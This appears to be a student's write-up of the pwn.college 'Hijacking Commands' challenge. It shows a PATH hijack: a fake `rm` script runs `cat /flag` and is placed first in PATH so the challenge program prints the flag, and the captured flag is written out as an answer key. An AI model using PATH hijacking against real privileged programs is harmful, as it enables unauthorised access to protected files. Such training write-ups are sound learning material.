 ## What I learned
1. I learned how to use knowledge from different modules, in solving a single question, which is a practice for what we need to do in real ctf challenges.

## References
-[pwn.college](https://pwn.college/linux-luminarium/path/) -  Pondering Paths manual pages 

# 5. Hijacking Commands
This challenge is almost the same as the first challenge in this module. Again, this challenge will delete the flag using the rm command. But unlike before, it will not print anything out for you. How can you solve this? You know that rm is searched for in the directories listed in the PATH variable. You have experience creating the win command when the previous challenge needed it. What else can you create?

## My solution
**Flag:** `pwn.college{kqIY-qNKnFBanlyOWq0VU_vf8nC.QX3cjM1wCMxkjNzEzW}`

1. Connected the wsl to the dojo.
```bash
rozakk@DESKTOP-JPQGP4K:~$ ssh -i key hacker@dojo.pwn.college
Connected!
```
2. In this question, we can't use PATH="", bcz its blocks our only way of making the process run by /challenge/run for detecting rm file name, as secretly mentioned in the question. Therefore, the only way is to make the shell detect our fake rm file before the real rm command, to prevent the deletion of the flag.

So, I make a new directory and make a shell script `rm` as shown 
```bash
hacker@path~hijacking-commands:~$ mkdir -p /home/hacker/mal
hacker@path~hijacking-commands:~$ cat > /home/hacker/mal/rm <<'EOF'
> #!/bin/bash
> /bin/cat /flag
> EOF
```
3. Then, as learnt before, I checked the shell script's permission, whether if its executable or not. It wasn't executable, so I made it executable using chmod command 
```bash
hacker@path~hijacking-commands:~$ ls -l /home/hacker/mal/rm
-rw-r--r-- 1 hacker hacker 27 Oct  9 18:54 /home/hacker/mal/rm
hacker@path~hijacking-commands:~$ chmod ugo+x /home/hacker/mal/rm
hacker@path~hijacking-commands:~$ ls -l /home/hacker/mal/rm
-rwxr-xr-x 1 hacker hacker 27 Oct  9 18:54 /home/hacker/mal/rm
```
4. As the program run by invoking /challenge/run needs win file to be executable by just referring by its name. For that, I use PATH variable. 
```bash
hacker@path~hijacking-commands:~$ PATH=/home/hacker/mal
```
5. Now, I run `/challenge/run`, whose execution reveals the flag
```bash
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
pwn.college{kqIY-qNKnFBanlyOWq0VU_vf8nC.QX3cjM1wCMxkjNzEzW}
```

## What I learned
1. Learned to combine all the lessons learnt in this module into solving this challenge.

## References
-[pwn.college](https://pwn.college/linux-luminarium/path/) -  Pondering Paths manual pages 

